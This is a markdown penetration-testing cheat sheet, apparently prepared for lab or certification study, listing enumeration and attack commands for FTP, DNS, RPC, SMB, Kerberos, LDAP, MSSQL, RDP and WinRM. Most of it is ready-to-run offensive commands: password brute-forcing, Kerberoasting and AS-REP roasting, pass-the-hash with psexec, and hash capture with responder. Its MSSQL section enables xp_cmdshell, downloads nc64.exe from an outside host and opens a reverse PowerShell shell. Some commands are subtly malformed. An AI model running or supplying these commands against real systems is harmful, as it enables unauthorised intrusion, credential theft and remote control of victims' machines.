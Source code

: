 ## Enumeration Checklist

\<set your variables\>
``target=
user=
pass=
ip=
domain=``

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

`> enumdomusers      #check the users on the DC`
`> queryuser <username>  #query the details of the user`
`> querydispinfo`

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip`

`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`

`smbclient -N -L //[ip]`

`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
	
`lookupsid.py  $domain$user:$pass@$domain`

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`

`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`

`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`

`netexec smb [host/ip] -u [user] -p [pass] --shares`

`netexec smb [host/ip] -u guest -p '' --shares`

`smbclient //[ip]/[share] -U [username] [password]`

`netexec smb -u [user] -p [pass] -M spider_plus`

`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`

`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`

`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`

`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`

`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`

`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`

`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`


# 389 LDAP

<Without Pass>

`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

`ldapsearch -x -H ldap://$ip -s base namingcontexts`

`impacket-lookupsid '$domain/guest'@$domain -no-pass`

<With Pass>

`lookupsid.py  $domain/$user:$pass@$domain`
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`
`neo4j console                #config file; /usr/share/neo4j/conf`
`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login`
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`

`SELECT @@version   #Current MSSQL Version`
`SELECT DB_NAME()   #Current Database`
`SELECT name FROM sys.databases;  #show DBs`	
`enum_db            #show DBs`

`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`

#cmd command	

`EXEC sp_configure 'show advanced options', 1;`
`RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1;`
`RECONFIGURE;`
`EXEC xp_cmdshell ' whoami /priv '`

`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`
	
hash capture

`xp_dirtree \\192.168.1.210\shared`
`responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)`

`enum_impersonate  #impersonate`
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate`


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
